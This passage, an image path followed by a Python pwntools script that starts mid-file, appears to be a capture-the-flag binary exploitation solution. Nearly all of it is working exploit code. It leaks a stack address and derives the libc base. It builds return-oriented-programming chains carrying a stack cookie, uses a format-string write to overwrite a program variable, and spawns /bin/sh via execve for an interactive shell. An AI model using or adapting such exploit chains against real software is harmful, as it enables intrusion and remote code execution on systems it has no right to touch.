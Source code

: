 ```python
    environ = io.recvline()[:-1]
    environ += b"\x00" * (8-len(environ))
    environ = u64(environ)
    print(hex(environ))
else:
    putsAddr = 0x7ffff7e559d0
    environ = 0x00007fffffffdc68
    libc = ELF("./libc.so.6")
    libc.address = putsAddr - libc.symbols["puts"]

    # io.interactive()
rop = ROP(libc)
rop.raw(cookie)
rop.raw(rbp)

for i in range(0x10):
    rop.raw(libc.address + 0x00000000000ca9ab)
rop.gets()
rop.call(exe.symbols["_exit"], [-45])

io.send(genPayload(rop.chain()))

writes = {exe.symbols["filter.0"] + 70:   0x7fff-6}
print(hex(exe.symbols["filter.0"] + 68))

payload = fmtstr_payload(10, writes, numbwritten=2, write_size="short")
print(payload)

io.sendline(b"\x01\x01aa" + payload.replace(b"lln", b"hna"))

io.send(genPayloadf(b"s"))

rop = ROP(libc)
rop.raw(cookie)
rop.raw(rbp)
rop.execve(next(libc.search(b"/bin/sh\x00")), 0, 0)

io.recvuntil(b"username")
io.send(genPayload(rop.chain()))
io.interactive()
```
